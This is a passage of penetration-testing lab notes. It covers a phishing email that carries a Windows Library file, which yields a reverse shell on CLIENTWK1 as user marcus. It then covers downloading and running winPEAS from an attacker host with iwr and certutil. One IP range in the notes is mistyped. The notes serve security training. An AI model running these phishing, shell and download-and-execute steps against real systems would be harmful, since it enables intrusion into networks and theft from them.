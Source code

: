 ```bash
	=== Connection closed with remote host.
```
	- -t - Recipient
	- --from - Sender
	- --attach - Windows Library file as an attachment
	- --suppress-data - Summarize the SMTP transaction info
	- --header - Subject line
	- --body - Crafted body.txt
	- --server - IP of MAILSRV1
	- -ap - Enable pw auth

- After awhile, python and WebDAV server will show requests, and we'll have a reverse shell on CLIENTWK1 via user `marcus`
```powershell
whoami
	beyond\marcus

hostname
	CLIENTWK1

ipconfig
	
	Windows IP Configuration
	
	
	Ethernet adapter Ethernet0:
	
	   Connection-specific DNS Suffix  . : 
	   IPv4 Address. . . . . . . . . . . : 172.16.130.243
	   Subnet Mask . . . . . . . . . . . : 255.255.255.0
	   Default Gateway . . . . . . . . . : 172.16.130.254
```
	- Internal IP range is 172.160.130.243/24
	- Important to document IP & network info


# Enumerating Internal

### CLIENTWK1
#### Situational Awareness Local enumeration

- Download **winpeas** onto the victim machine
```bash
cd C:\users\marcus

iwr -uri http://192.168.45.170/winPEASx64.exe -outfile winpeas.exe
OR
certutil -urlcache -f http://192.168.45.170/winPEASx64.exe winpeas.exe
	****  Online  ****
	CertUtil: -URLCache command completed successfully.

./winpeas.exe
```
